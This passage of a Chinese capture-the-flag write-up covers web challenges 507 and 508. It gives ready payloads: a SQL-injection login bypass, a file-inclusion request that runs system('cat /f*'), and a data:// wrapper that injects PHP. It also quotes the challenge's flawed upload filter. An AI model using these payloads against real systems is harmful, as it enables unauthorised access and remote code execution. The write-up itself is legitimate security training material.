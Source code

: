 其他同上

payload：

```
api/admin_file_view.php

POST:
debug=1&f=/var/www/html/templates/a.png&1=system('cat /f*');
```



## 507-data://

登录

```
/index.php?action=check

post：（两个都行）
username=' || 1%23&password=1
```

上传这禁用了很多php相关的标签：

```php
case 'upload':
	extract($_POST);
	if(!preg_match('/php|phar|ini|settings/i', $name))
	{
		if(preg_match('/<|>|\?|php|=|script|,|;|\(/i', $content)){
			$ret['msg']='文件上传失败';
		}else{
			file_put_contents(__DIR__.'/../templates/'.$name, $content);
			$ret['msg']='文件上传成功';
		}

```

可以直接伪协议：

```
/api/admin_file_view.php

POST:
debug=1&f=data://text/plain,user<?php system('cat /f*');?>
```

## 508-文件包含

登录

```
/index.php?action=check

post：（两个都行）
username=' || 1%23&password=1
```
